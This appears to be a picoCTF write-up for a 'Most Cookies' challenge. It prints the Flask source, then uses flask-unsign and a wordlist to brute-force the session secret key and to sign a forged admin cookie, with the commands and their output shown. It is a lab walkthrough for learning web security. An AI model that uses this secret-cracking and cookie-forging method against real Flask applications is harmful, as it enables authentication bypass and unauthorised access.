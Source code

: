 ```python=
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()

```

+ get session
+ check cookie
+ `Set-Cookie`: session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZazO0w.3CsATe1Bk_b1VNx3hbGCG0nEew4
+ `decode` : very_auth with `cookies_names` -> session = {"very_auth","admin"}

---
#### Tools
`flask-unsign`

#### Sol
+ get session value`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZazZAw.YdHCNcSIYY20b4_c_kpOSnAylWQ`
+ basse64 decode ,get `{"very_auth":"blank"}e#\HF)V`
+ So we need to change it to `{"very_auth":"blank"}` and use `cookie_names (secret_key)` to encode

##### Terminal
```bash=
$pip install flask-unsign
$pip install flask-unsign-wordlist
# echo cookie_names > wordlist.txt
$flask-unsign --unsign --cookie eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZazdjA.HuEoSxDF2RZZEhmP1f52Rh0ERVs --wordlist Most_cookies_pico/wordlist.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'

flask-unsign --sign --cookie "{'very_auth' : 'admin'}" --secret gingersnap
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zaze8A.392G1bXJFm6Ubl3Eal7A-nrX0OA
```

+ Set session = `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zaze8A.392G1bXJFm6Ubl3Eal7A-nrX0OA`

`Flag` : picoCTF{pwn_4ll_th3_cook1E5_5f016958}

`REF` : 
[flask hacketricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)
[CTF time](https://ctftime.org/writeup/26978)
[Termal SOL REF](https://medium.com/@MohammedAl-Rasheed/picoctf-2021-most-cookies-7f3d8b6cd0b)

